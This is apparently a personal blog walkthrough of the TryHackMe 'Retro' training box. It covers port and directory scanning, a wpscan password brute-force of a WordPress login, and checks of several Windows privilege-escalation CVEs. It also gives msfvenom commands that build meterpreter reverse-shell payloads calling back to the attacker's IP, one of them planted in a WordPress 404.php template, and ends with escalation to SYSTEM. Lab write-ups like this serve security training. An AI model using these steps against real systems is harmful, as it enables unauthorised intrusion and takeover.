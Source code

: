 +++
title = "THM - Retro writeup"
date = "2024-01-02T19:04:04+02:00"
tags = ["tryhackme", "wireshark", "windows", "nmap", "feroxbuster", "wpscan", "smb", "wordpress", "meterpreter"]
aliases = ["/2024/01/02/thm-retro/"]
categories = ["Pentesting", "Writeup", "CTF"]
showTableOfContents = true
showHeadingAnchors = true
heroStyle = "background"
showHero = true
+++

Hi,

this is my Writeup for the [Retro](https://tryhackme.com/room/retro) box of
[TryHackMe](https://tryhackme.com). This box is the final room of the
[Offensive Pentesting](https://tryhackme.com/paths) path.

## Information gathering

First I have to know what is in front of me. So I started the machine and after
that start with nmap.

```bash
nmap -Pn -p- TARGET_MACHINE_IP -oN ports
```


That scan reveals two open ports:

- 80 which is running a webserver
- 3389 which is the rdp service

To get the running services, I always use this command:

```bash
nmap -Pn -sC -sV -p $(grep -Po '[0-9]*(?=/tcp)' ports | tr '\n' ', ') TARGET_MACHINE_IP -oN services
```


<!--more-->

## A web server is running on the target. What is the hidden directory which the website lives on?

To answer this question, I used my favorit content discovery tool:
[feroxbuster](https://github.com/epi052/feroxbuster).

```bash
feroxbuster -w /PATH/TO/SECLISTS/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://TARGET_MACHINE_IP
```


![ferox_scan.png](/images/retro/ferox_scan.png)

There is the (not so) hidden directory. And another interesting thing showed up:
`wp-content`. So there is wordpress running. Good to know.

## user.txt

This one is easier then I thought. When looking around the blog entries from the
hidden directory, it is clear that the user `Wade` which has posted all the
entries, should be the username itself for wordpress and/or rdp session. I did
what every beginner would do: Start wpscan before further investigation.

```bash
wpscan --url http://TARGET_MACHINE_IP/*****/wp-login.php --usernames ["Wade"] --passwords /PATH/TO/rockyou.txt -t 200
```


But this takes very long. While I'm writing this, it is still running for about
25 min so far. I decided to read the blog entries, because I have to wait
anyway. And there it was! A suspecious blog entry:

![sus_entry.png](/images/retro/sus_entry.png)

comment section of this blog entry, I found the password in cleartext. And glad
I do so, because the cracking process was at this point after 41 min:

```
Trying [Wade] / carla Time: 00:41:33 <      > (1332 / 14344398)
```


> But the password is at position >1'400'000. So 41 min for position 1'332.
> Spare your time and read through the blog instead of bruteforcing it.


After that, I used the credentials to login via rdp with the user `Wade`. And it
was succesful. Also login with the same credentials over wordpress login page
was succesful. On the users desktop, there lays a file named `user.txt`
contains the flag.

## root.txt

To get the root flag, it is obvious that some privelege escalation should be
done. A [cheatsheet](https://0xsp.com/offensive/privilege-escalation-cheatsheet)
should help us to start. Now the systeminfo command helps us alot:

![sysinfo.png](/images/retro/sysinfo.png)

The version could be important. I decided to check the build version with the so
called
«[common kernel exploits](https://0xsp.com/offensive/privilege-escalation-cheatsheet/#Common_Kernel_Exploits)».
Glad microsoft has a list on the side to check even faster:
[securitybulletins](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-014).

No one of the MS16-0\*'s would work here. Just `CVE-2020-0796` and
`CVE-2019-1388`.

#### CVE-2020-0796

To check for this vulnerability, I read this article:
[SMBGhost - An Overview of CVE-2020-0796](https://www.keysight.com/blogs/en/tech/nwvs/2022/02/11/smbghost-an-overview-of-cve-2020-0796).
To be affected, the version should be `10.0.18362.329` for the file `srv2.sys`

![srv2sys.png](/images/retro/srv2sys.png)

But smbv3 seems not enabled:

![smbv3Disabled.png](/images/retro/smbv3Disabled.png)

In this case we are not affected. Sadly. But move on to the last vulnerability
of the list.

#### CVE-2019-1388

By searching for the vulnerability and the
[KB](https://en.wikipedia.org/wiki/Microsoft_Knowledge_Base) on google, I found
this blog page :
[Patch Windows Certificate Dialog Elevation of Privilege Vulnerability](https://blog.invgate.com/patch-cve-2019-1388#about-cve)
This linked the
[list of patches for every system](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2019-1388).
With this, we get the KB number: `KB4519976`

![KBnumber.png](/images/retro/KBnumber.png)

Yes! The target machine is vulnerable to cve-2019-1388! And ye, this is a easy
room so there was another hint, that this vulnerability should be used:

![trash.png](/images/retro/trash.png)

This is the exploit which is used for cve-2019-1388.

I found a Video which explains very good, how to do so:

{{< youtube 3BQKpPNlTSo >}}

I followed all the steps but there was a problem:

![noBrowser.png](/images/retro/noBrowser.png)

Now this is not working and even the workaround, which could be found in other
writeups, where you have to initialize IE and Google Chrome browser before you
try to exploit, didn't work for me.

#### MS16-075

Because I was so desperate, I looked at the previous MS16-0\* vulnerabilities. I
thought there must be another way in! How do I check this? Now it seems that we
are, because our user is low priv, not able to check for installed
updates/patches. To check, I decided to run the exploit.

But it fails because the user «Wade» is missing some previleges:

![FailedMS1675.png](/images/retro/FailedMS1675.png)

I almost gave up on this vulnerability, but then I thought about it. There is a
wordpress running. I bet it is running from a different user! Lets check the
wordpress admin dashboard.

![wplogin.png](/images/retro/wplogin.png)

Yes, the 404.php for example can be edited. To get a reverse shell there, we can
use msfvenom.

Create the payload:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=VPN_TUN_IP LPORT=4445 -f raw > rev.php
```


![404html.png](/images/retro/404html.png)

Now when the payload is created, copy the content of the rev.php file into the
404.php and save/update the file. After that, when navigating to a page which is
not existing, the php-code would be triggered. Right before, start msfconsole
and use the `exploit/multi/handler`.

![meterpreter.png](/images/retro/meterpreter.png)

Now we have a php-meterpreter as the user «IUSR». And I write php-meterpreter
because you have to know that this is another kind of meterpreter than the tcp
one. And to get a «normal» tcp reverse shell, we can do the same from here.

First create the exploit:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=VPN_TUN_IP LPORT=4444 -f exe -o revtcp.exe
```


After that, you can upload it from the php-meterpreter session:

```
meterpreter > upload revtcp.exe
```


I had to change the directory to C:\temp (just created the temp folder) because
we have no permission to upload the file anywhere. Now, when you have prepared
another multi handler listener for the tcp reverse shell, you can run the
payload and you have a normal meterpreter which should work for the ms16_075
exploit.

```
meterpreter > execute -f revtcp.exe
```


But even with this, the exploit is not successful.

![noMS16.png](/images/retro/noMS16.png)

As I tried to figure it out what the problem may cause, I saw a cheap weapon
while scrolling trough the help output of meterpreter.

![ShouldI.png](/images/retro/ShouldI.png)

And with this automated action, I was able to gain system privilege. But I call
it «cheap» because it is like other automated scanning tools. You dont need to
search and understand yourself, the tool is gonna do it for you. But this time,
I gave it a try, because all vulnerabilities who should work, are for some
reason not working. I read walkthroughs about this room and they all have solve
it with the two vulnerabilities which I tried first. And in the end: Cracked is
cracked.

![getRoot.png](/images/retro/getRoot.png)

Now with system priv you should be able to search for the root.txt file.

```powershell
Get-ChildItem -Path C:\ -Include *root.txt* -File -Recurse -ErrorAction SilentlyContinue
```


Good luck :)

---

{{<figure
src="/images/darksoulsMeme.png"
nozoom=true
>}}

